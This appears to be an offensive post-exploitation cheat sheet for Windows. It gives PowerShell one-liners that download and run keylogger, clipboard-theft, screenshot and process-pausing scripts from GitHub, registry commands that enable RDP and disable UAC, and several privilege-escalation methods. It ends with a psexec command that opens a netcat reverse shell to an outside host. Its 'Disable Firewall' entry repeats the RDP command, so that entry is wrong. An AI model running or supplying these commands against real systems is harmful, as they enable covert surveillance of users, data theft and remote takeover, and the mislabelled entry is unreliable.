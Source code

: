 ## Data Extraction

Import Powersploits invoke-keystrokes
```bash
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-Keystrokes.ps1')"
```

Import Empire's Get-ClipboardContents
```bash
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ClipboardContents.ps1')"
```
Import Get-TimedScreenshot
```bash
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/obscuresec/PowerShell/master/Get-TimedScreenshot')"
```

Use Windows Debug api to pause live processes
```bash
powershell.exe -nop -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/Pause-Process/master/pause-process.ps1');Pause-Process -ID 1180;UnPause-Process -ID 1180;"
```

## Enable / Disable 

Enable RDP:
``` bat
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

Disable UAC:
```bash
reg enumkey -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\policies\\system reg setval -v EnableLUA -d 0 -t REG_DWORD -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\policies\\system
```

Disable Firewall:
```bash 
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## Admin to SYSTEM
```bash
time
# Now we set the time we want the system CMD to start. Probably one minuter after the time.
at 01:23 /interactive cmd.exe
```
```bash
psexec -i -s cmd.exe
```
```bash
vdmallowed.exe
vdmexploit.dll
```
```bash
getsystem
```
```bash
psexec.exe -i -s %SystemRoot%\system32\cmd.exe
```
```bash
psexec64 \\COMPUTERNAME -u Test -p test -h "//$source_ip/$smb_share/tools_windows/bin/nc.exe -nc $source_ip $source_port -e cmd.exe" 
```